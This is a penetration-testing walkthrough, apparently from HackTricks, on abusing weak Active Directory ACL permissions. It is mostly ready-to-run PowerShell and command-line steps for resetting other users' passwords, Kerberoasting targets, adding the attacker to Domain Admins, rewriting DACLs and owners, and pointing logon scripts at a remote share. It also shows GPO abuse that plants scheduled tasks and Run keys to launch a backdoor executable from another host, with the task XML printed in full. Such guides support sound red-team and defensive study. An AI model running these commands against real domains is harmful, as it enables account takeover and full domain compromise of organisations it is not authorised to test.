# Abusing Active Directory ACLs/ACEs

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<figure><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.



***

## Context

This lab is to abuse weak permissions of Active Directory Discretionary Access Control Lists (DACLs) and Acccess Control Entries (ACEs) that make up DACLs.

Active Directory objects such as users and groups are securable objects and DACL/ACEs define who can read/modify those objects (i.e change account name, reset password, etc).

An example of ACEs for the "Domain Admins" securable object can be seen here:


Some of the Active Directory object permissions and types that we as attackers are interested in:

* **GenericAll** - full rights to the object (add users to a group or reset user's password)
* **GenericWrite** - update object's attributes (i.e logon script)
* **WriteOwner** - change object owner to attacker controlled user take over the object
* **WriteDACL** - modify object's ACEs and give attacker full control right over the object
* **AllExtendedRights** - ability to add user to a group or reset password
* **ForceChangePassword** - ability to change user's password
* **Self (Self-Membership)** - ability to add yourself to a group

In this lab, we are going to explore and try to exploit most of the above ACEs.

It's worth familiarizing yourself with all of the [BloodHound edges](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html) and as many Active Directory [Extended Rights](https://learn.microsoft.com/en-us/windows/win32/adschema/extended-rights) as possible as you never know when you may encounter a less common one during an assessment.

## GenericAll on User

Using powerview, let's check if our attacking user `spotless` has `GenericAll rights` on the AD object for the user `delegate`:

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
```

We can see that indeed our user `spotless` has the `GenericAll` rights, effectively enabling the attacker to take over the account:



*   **Change password**: You could just change the password of that user with

    ```bash
    net user <username> <password> /domain
    ```
*   **Targeted Kerberoasting**: You could make the user **kerberoastable** setting an **SPN** on the account, kerberoast it and attempt to crack offline:

    ```powershell
    # Set SPN
    Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
    # Get Hash
    .\Rubeus.exe kerberoast /user:<username> /nowrap
    # Clean SPN
    Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose

    # You can also use the tool https://github.com/ShutdownRepo/targetedKerberoast 
    # to get hashes of one or all the users
    python3 targetedKerberoast.py -domain.local -u <username> -p password -v
    ```
*   **Targeted ASREPRoasting**: You could make the user **ASREPRoastable** by **disabling** **preauthentication** and then ASREProast it.

    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

## GenericAll on Group

Let's see if `Domain admins` group has any weak permissions. First of, let's get its `distinguishedName`:

```csharp
Get-NetGroup "domain admins" -FullData
```


```csharp
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

We can see that our attacking user `spotless` has `GenericAll` rights once again:



Effectively, this allows us to add ourselves (the user `spotless`) to the `Domain Admin` group:

```csharp
net group "domain admins" spotless /add /domain
```


Same could be achieved with Active Directory or PowerSploit module:

```csharp
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

## GenericAll / GenericWrite / Write on Computer/User

* If you have these privileges on a **Computer object**, you can pull [Kerberos **Resource-based Constrained Delegation**: Computer Object Take Over](../resource-based-constrained-delegation.md) off.
* If you have these privs over a user, you can use one of the [first methods explained in this page](./#genericall-on-user).
* Or, either you have it in a Computer or a user you can use **Shadow Credentials** to impersonate it:


[shadow-credentials.md](shadow-credentials.md)


## WriteProperty on Group

If our controlled user has `WriteProperty` right on `All` objects for `Domain Admin` group:



We can again add ourselves to the `Domain Admins` group and escalate privileges:

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```


## Self (Self-Membership) on Group

Another privilege that enables the attacker adding themselves to a group:



```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```



## WriteProperty (Self-Membership)

One more privilege that enables the attacker adding themselves to a group:

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```


```csharp
net group "domain admins" spotless /add /domain
```



## **ForceChangePassword**

If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password:

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```


Doing the same with powerview:

```csharp
Set-DomainUserPassword -Identity delegate -Verbose
```


Another method that does not require fiddling with password-secure-string conversion:

```csharp
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose
```


...or a one liner if no interactive session is not available:

```csharp
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```



and one last way yo achieve this from linux:

```markup
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```

More info:

* [https://malicious.link/post/2017/reset-ad-user-password-with-linux/](https://malicious.link/post/2017/reset-ad-user-password-with-linux/)
* [https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN)
* [https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/e28bf420-8989-44fb-8b08-f5a7c2f2e33c](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/e28bf420-8989-44fb-8b08-f5a7c2f2e33c)

## WriteOwner on Group

Note how before the attack the owner of `Domain Admins` is `Domain Admins`:



After the ACE enumeration, if we find that a user in our control has `WriteOwner` rights on `ObjectType:All`

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```



...we can change the `Domain Admins` object's owner to our user, which in our case is `spotless`. Note that the SID specified with `-Identity` is the SID of the `Domain Admins` group:

```csharp
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
//You can also use the name instad of the SID (HTB: Reel)
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```


## GenericWrite on User

```csharp
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```



`WriteProperty` on an `ObjectType`, which in this particular case is `Script-Path`, allows the attacker to overwrite the logon script path of the `delegate` user, which means that the next time, when the user `delegate` logs on, their system will execute our malicious script:

```csharp
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

Below shows the user's ~~`delegate`~~ logon script field got updated in the AD:



## GenericWrite on Group

This allows you to set as members of the group new users (yourself for example):

```powershell
# Create creds
$pwd = ConvertTo-SecureString 'JustAWeirdPwd!$' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $pwd) 
# Add user to group
Add-DomainGroupMember -Credential $creds -Identity 'Group Name' -Members 'username' -Verbose
# Check user was added
Get-DomainGroupMember -Identity "Group Name" | Select MemberName
# Remove group member
Remove-DomainGroupMember -Credential $creds -Identity "Group Name" -Members 'username' -Verbose
```

<figure><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.



***

## WriteDACL + WriteOwner

If you are the owner of a group, like I'm the owner of a `Test` AD group:


Which you can of course do through powershell:

```csharp
([ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local").PSBase.get_ObjectSecurity().GetOwner([System.Security.Principal.NTAccount]).Value
```



And you have a `WriteDACL` on that AD object:



...you can give yourself [`GenericAll`](../../../windows/active-directory-methodology/broken-reference/) privileges with a sprinkle of ADSI sorcery:

```csharp
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

Which means you now fully control the AD object:



This effectively means that you can now add new users to the group.

Interesting to note that I could not abuse these privileges by using Active Directory module and `Set-Acl` / `Get-Acl` cmdlets:

```csharp
$path = "AD:\CN=test,CN=Users,DC=offense,DC=local"
$acl = Get-Acl -Path $path
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule (New-Object System.Security.Principal.NTAccount "spotless"),"GenericAll","Allow"
$acl.AddAccessRule($ace)
Set-Acl -Path $path -AclObject $acl
```


## **Replication on the domain (DCSync)**

The **DCSync** permission implies having these permissions over the domain itself: **DS-Replication-Get-Changes**, **Replicating Directory Changes All** and **Replicating Directory Changes In Filtered Set**.\
[**Learn more about the DCSync attack here.**](../dcsync.md)

## GPO Delegation <a href="#gpo-delegation" id="gpo-delegation"></a>

Sometimes, certain users/groups may be delegated access to manage Group Policy Objects as is the case with `offense\spotless` user:


We can see this by leveraging PowerView like so:

```bash
Get-ObjectAcl -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

The below indicates that the user `offense\spotless` has **WriteProperty**, **WriteDacl**, **WriteOwner** privileges among a couple of others that are ripe for abuse:


### Enumerate GPO Permissions <a href="#abusing-the-gpo-permissions" id="abusing-the-gpo-permissions"></a>

We know the above ObjectDN from the above screenshot is referring to the `New Group Policy Object` GPO since the ObjectDN points to `CN=Policies` and also the `CN={DDC640FF-634A-4442-BC2E-C05EED132F0C}` which is the same in the GPO settings as highlighted below:


If we want to search for misconfigured GPOs specifically, we can chain multiple cmdlets from PowerSploit like so:

```powershell
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```


**Computers with a Given Policy Applied**

We can now resolve the computer names the GPO `Misconfigured Policy` is applied to:

```powershell
Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}
```


**Policies Applied to a Given Computer**

```powershell
Get-DomainGPO -ComputerIdentity ws01 -Properties Name, DisplayName
```


**OUs with a Given Policy Applied**

```powershell
Get-DomainOU -GPLink "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" -Properties DistinguishedName
```


### **Abuse GPO -** [New-GPOImmediateTask](https://github.com/3gstudent/Homework-of-Powershell/blob/master/New-GPOImmediateTask.ps1)

One of the ways to abuse this misconfiguration and get code execution is to create an immediate scheduled task through the GPO like so:

```powershell
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```


The above will add our user spotless to the local `administrators` group of the compromised box. Note how prior to the code execution the group does not contain user `spotless`:


### GroupPolicy module **- Abuse GPO**


You can check to see if the GroupPolicy module is installed with `Get-Module -List -Name GroupPolicy | select -expand ExportedCommands`. In a pinch, you can install it with `Install-WindowsFeature –Name GPMC` as a local admin.


```powershell
# Create new GPO and link it with the OU Workstrations
New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=domain,DC=io"
# Make the computers inside Workstrations create a new reg key that will execute a backdoor
## Search a shared folder where you can write and all the computers affected can read
Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\dc-2\software\pivot.exe" -Type ExpandString
```

This payload, after the GPO is updated, will need also someone to login inside the computer.

### [**SharpGPOAbuse**](https://github.com/FSecureLABS/SharpGPOAbuse) **- Abuse GPO**


It cannot create GPOs, so we must still do that with RSAT or modify one we already have write access to.


```bash
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"
```

### Force Policy Update <a href="#force-policy-update" id="force-policy-update"></a>

The previous abusive **GPO updates are reloaded** roughly each 90 minutes.\
if you have access to the computer you can force it with `gpupdate /force` .

### Under the hood <a href="#under-the-hood" id="under-the-hood"></a>

If we observe the Scheduled Tasks of the `Misconfigured Policy` GPO, we can see our `evilTask` sitting there:


Below is the XML file that got created by `New-GPOImmediateTask` that represents our evil scheduled task in the GPO:


```markup
<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{CC63F200-7309-4ba0-B154-A71CD118DBCC}">
    <ImmediateTaskV2 clsid="{9756B581-76EC-4169-9AFC-0CA8D43ADB5F}" name="evilTask" image="0" changed="2018-11-20 13:43:43" uid="{6cc57eac-b758-4c52-825d-e21480bbb47f}" userContext="0" removePolicy="0">
        <Properties action="C" name="evilTask" runAs="NT AUTHORITY\System" logonType="S4U">
            <Task version="1.3">
                <RegistrationInfo>
                    <Author>NT AUTHORITY\System</Author>
                    <Description></Description>
                </RegistrationInfo>
                <Principals>
                    <Principal id="Author">
                        <UserId>NT AUTHORITY\System</UserId>
                        <RunLevel>HighestAvailable</RunLevel>
                        <LogonType>S4U</LogonType>
                    </Principal>
                </Principals>
                <Settings>
                    <IdleSettings>
                        <Duration>PT10M</Duration>
                        <WaitTimeout>PT1H</WaitTimeout>
                        <StopOnIdleEnd>true</StopOnIdleEnd>
                        <RestartOnIdle>false</RestartOnIdle>
                    </IdleSettings>
                    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
                    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
                    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
                    <AllowHardTerminate>false</AllowHardTerminate>
                    <StartWhenAvailable>true</StartWhenAvailable>
                    <AllowStartOnDemand>false</AllowStartOnDemand>
                    <Enabled>true</Enabled>
                    <Hidden>true</Hidden>
                    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
                    <Priority>7</Priority>
                    <DeleteExpiredTaskAfter>PT0S</DeleteExpiredTaskAfter>
                    <RestartOnFailure>
                        <Interval>PT15M</Interval>
                        <Count>3</Count>
                    </RestartOnFailure>
                </Settings>
                <Actions Context="Author">
                    <Exec>
                        <Command>cmd</Command>
                        <Arguments>/c net localgroup administrators spotless /add</Arguments>
                    </Exec>
                </Actions>
                <Triggers>
                    <TimeTrigger>
                        <StartBoundary>%LocalTimeXmlEx%</StartBoundary>
                        <EndBoundary>%LocalTimeXmlEx%</EndBoundary>
                        <Enabled>true</Enabled>
                    </TimeTrigger>
                </Triggers>
            </Task>
        </Properties>
    </ImmediateTaskV2>
</ScheduledTasks>
```


### Users and Groups <a href="#users-and-groups" id="users-and-groups"></a>

The same privilege escalation could be achieved by abusing the GPO Users and Groups feature. Note in the below file, line 6 where the user `spotless` is added to the local `administrators` group - we could change the user to something else, add another one or even add the user to another group/multiple groups since we can amend the policy configuration file in the shown location due to the GPO delegation assigned to our user `spotless`:


```markup
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
    <Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2018-12-20 14:08:39" uid="{300BCC33-237E-4FBA-8E4D-D8C3BE2BB836}">
        <Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)">
            <Members>
                <Member name="spotless" action="ADD" sid="" />
            </Members>
        </Properties>
    </Group>
</Groups>
```


Additionally, we could think about leveraging logon/logoff scripts, using registry for autoruns, installing .msi, edit services and similar code execution avenues.

## References

